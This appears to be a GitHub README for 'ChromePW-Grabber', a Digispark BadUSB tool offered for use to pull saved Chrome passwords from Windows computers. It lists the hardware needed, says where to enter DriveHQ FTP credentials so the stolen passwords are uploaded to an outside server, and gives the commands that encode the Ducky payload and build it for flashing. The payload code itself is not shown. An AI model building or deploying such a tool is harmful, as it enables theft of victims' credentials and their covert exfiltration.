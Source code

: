
# ChromePW-Grabber

This is a simple script which can extract browser passwords from Windows Computer using Digispark


## Authors

- [@otaviozanon](https://www.github.com/otaviozanon)


## What you need

- DigiSpark Attiny85 USB Board
- Arduino IDE
- Windows/Linux Host PC
- Windows PC for Testing
- Drivehq.com Free Account
- Python
- Java


## How to setup
 (ChromePW-Grabber.ps1)
- Place your DriveHQ Username here $ftpUser = "username" 
- Place your DriveHQ Password here $ftpPassword = "password"
- Place your DriveHQ Destination here $ftpDestination = "\My Documents\Hacking\log.txt"

(ChromePW-Grabber.duck)
- Place your repository url .ps1 from cloud

(Inside root folder project run inside powershell)
```bash
  java -jar encoder/encoder.jar -i ChromePWGrabberPayload.duck -o ChromePWGrabberPayload.bin -l .\encoder\resources\us.properties
```

```bash
  python duck2spark/duck2spark.py -i ChromePWGrabberPayload.bin -l 1 -f 2000 -o ChromePWGrabberPayload.ino
```

After run ChromePWGrabberPayload.ino inside Arduino IDE and put your Digispark.


## Indicators

LED ON indicates that program is now Executing BLINKING LED indicates that progam has Ended


